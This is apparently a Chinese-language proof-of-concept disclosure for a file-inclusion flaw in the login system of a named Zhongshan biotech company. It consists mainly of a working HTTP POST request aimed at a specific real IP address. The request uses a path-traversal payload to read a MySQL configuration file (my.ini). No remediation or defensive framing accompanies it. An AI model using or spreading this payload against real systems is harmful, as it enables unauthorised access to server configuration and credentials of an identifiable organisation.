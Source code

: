 ### 奥德美生物科技（中山）有限公司登陆系统文件包含

网站首页

![](https://pic1.imgdb.cn/item/68afb88e58cb8da5c857a45f.png)

抓包修改 POC

```apl
POST /mac/gateway.php HTTP/1.1
Host: 113.104.3.66:1000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 45
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../mysql5/my.ini"}
```

![](https://pic1.imgdb.cn/item/68afbc6558cb8da5c857a537.png)